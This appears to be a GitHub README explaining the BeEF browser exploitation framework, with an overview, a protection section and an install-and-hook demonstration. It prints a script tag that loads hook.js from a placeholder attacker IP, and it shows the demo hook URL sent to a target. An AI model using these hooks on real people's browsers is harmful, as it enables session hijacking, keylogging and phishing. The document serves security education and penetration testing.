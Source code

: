 # BeEF Framework
## Introduction
According to [1][1] around 45% of Web users are not updating to the latest versions of their browsers with the up-to-date security measures, which empowers various tools to exploit their browsers' vulnerabilities. BeEF which is the short term of Browser Exploitation Framework, initiated in 2006 by Wade Alcorn is an open-source hacking and penetration testing tool, mainly to perform web browser attacks and exploit vulnerabilities using a capable and simple user interface [2][2]. 
## Browser Exploitation
Generally, an exploit is any code that utilizes vulnrabilities in an operating system or a piece of software to perform malicious actions. Browser or website exploitation takes advantage of a web browser vulnerability and breach a web browser security to alter a user's browser settings without their knowledge [3][3]. 
## What Does BeEF Do?
BeEF evades network security measures and anti-virus applications in the host system by exploiting vulnerabilities in web browsers [4][4]. It focuses on taking advantage of a web browser’s vulnerabilities to hijack and take control of the target. By “hooking” one or many number of browsers, the attacker starts launching various type of commands that attacks the browser and further attacks the system [4][4]. In order to perform an attack, the attacker generates a customized URL that includes a JavaScript hook and forwards it to the targeted user using emails, social network links and many other possible ways to open it [5]. 
```javascript
<script src="http://Attacker’s_IP_Address:3000/hook.js"></script>
```
Once an unaware user opens the received URL, the browser is hooked without noticing any unusual activity while the attacker accesses the user’s session. Hence, the attacker will have access to the targeted browser and will be able to launch MITM attacks, Social Engineering attacks, Phishing, Cookie Hijacking, Webcam Enabling, Information Gathering, and many other commands that may further attack the host system.
## How Does It Work?
When the attacker starts BeEF, the User Interface and Communication Server are started.

![alt text](https://github.com/yazan828/Test/blob/main/BeEFUI.PNG "BeEF User Interface")

The method BeEF follows to hook web browsers consists of three phases Initiating, Retaining, and Attacking. During initiating, the user opens the received URL and the browser executes the hook that contains instructions to initiate a communication channel between the hooked browser and the attacker. In the retaining phase, an active communication channel is established to start the attacking phase. Using Communication Servers, the attacker is able to communicate with the hooked browsers via HTTP. Lastly, after hooking the browser and establishing an active channel for communication, the attacker can start delivering JavaScript payloads and sending various commands through the User Interface. BeEF offers a variety set of features such as [6][6],[7][7]: 
* Key logging
* Using hooked browser as proxy
* Many social engineering techniques
* Integration with Metasploit Framework 
* Phishing attacks

![alt text](https://github.com/yazan828/Test/blob/main/Command.PNG "Various BeEF Commands")

![alt text](https://github.com/yazan828/Test/blob/main/Diagram.png "BeEF Attack Scenario [6]")

The figure above demonstrates an overview of a client attack using BeEF by injecting the script into the hook and forwarding it to the target. 
## Who Uses BeEF & Why Is It Useful?
The primary purpose of BeEF is to allow qualified penetration testers to evaluate the security measures of web browsers and examine exploitability by simulating the attacks. However, BeEF is also used by hackers who are either targeting specific victims or spreading hooks through the network to gather sensitive information without consent. Plus, BeEF is continuously being used for educational purposes due to its simplicity and strong capability [4][4]. 
## How To Protect Against BeEF?
To protect a browser against BeEF or any other browser explotation tool, a number  of steps should be taken:
* Continously update you browser
When a vulnerability in a web browser is found, the vendor often releases a patch to fix the issue causing it. Hence, updating web browser provides protection against more recent exploits.
* Do not click on suspicious links or attachments
Most social engineering techniques are often used by tricking targets to open URLs to suspicious websites. Hence, verifying that an attachment is legitimate is important before clicking it. There are multiple online tools to check if the recieved URL is safe or not such as [11]
* Install firewall and other security software
## Demonstration
This is a short demonstration on how BeEF Framework works on LAN networks. To start, you can install BeEF in few quick steps. (See [8][8] if you encouter any errors)
```console
$ git clone https://github.com/beefproject/beef.git
$ cd /beef
$ ./install
```
Now you are ready to launch BeEF by typing:
```console
$ beef-xss
```
Now, BeEF will start on your coomand line and will open a web user interface
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/BeEF_Start.png)
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/BeEF_Authentication.png)
After inserting your credentials, you can now access the user panel.
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/UI.png)
Send the following hook to the targeted browser
```
http://Your_IP_Address:3000/demos/butcher/index.html
```
Once the user opens the URL, the targeted browser is now hooked
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/BeEF_Hook.png "Hook Page on Targeted Browser")
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/BeEF_Hooked.png "Hooked Browser as Seen From the Attacker Panel")

Now, the attacker has access to the target's browser and is able to send many different commands from the commands window.
## Additional Resources
As mentioned before, the actual version of BeEF Framework works only over LAN Networks. Hence, some developers have developed tools that facilitate with BeEF to operate remotely over WAN such as [9][9],[10][10]


[1]: https://writingbros.com/essay-examples/an-in-depth-look-at-browser-exploitation-using-beef-framework/
[2]: https://github.com/beefproject/beef/wiki#overview
[3]: https://www.ericom.com/whatis/browser-exploit/
[4]: https://www.researchgate.net/publication/322398374_Web_Browser_Attack_Using_BeEF_Framework
[5]: https://www.secureideas.com/blog/2013/06/getting-started-with-beef-browser.html#:~:text=BeEF%2C%20the%20Browser%20Exploitation%20Framework,environment%2C%20bypassing%20the%20hardened%20perimeter.
[6]: https://ro.ecu.edu.au/cgi/viewcontent.cgi?article=1131&context=adf
[7]: https://github.com/beefproject/beef/wiki/How-BeEF-Works
[8]: https://github.com/beefproject/beef
[9]: https://github.com/AzizKpln/Beef-Over-AWS
[10]: https://github.com/stormshadow07/BeeF-Over-Wan
[11]: https://search.google.com/search-console/welcome?action=inspect&utm_medium=referral&utm_campaign=9012289
